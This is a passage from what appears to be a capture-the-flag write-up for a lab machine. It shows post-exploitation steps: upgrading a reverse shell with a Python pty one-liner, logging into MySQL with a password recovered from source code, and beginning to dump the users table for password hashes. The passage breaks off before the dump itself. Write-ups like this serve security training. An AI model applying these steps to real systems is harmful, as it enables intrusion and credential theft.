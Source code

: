 Using these credentials we would be able to extract information from the database such as the password hashes of the users within the application. 
Before we can connect to mysql we need to upgrade our reverse shell to a fully interactive shell. We can do this with the following python oneliner 

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Next we can connect to  mysql database with the following command. When it asks for the password fill in **pxCsmnGLckUb**.

```bash
mysql -h 127.0.0.1 -u iclean -p capiclean
```

First of we want to know what tables are present within this database we enumerate these with the following command:

```bash
show tables;
```
![Tables](/assets/img/Iclean/Iclean_09.png)

next we can dump the full users database with the following command:
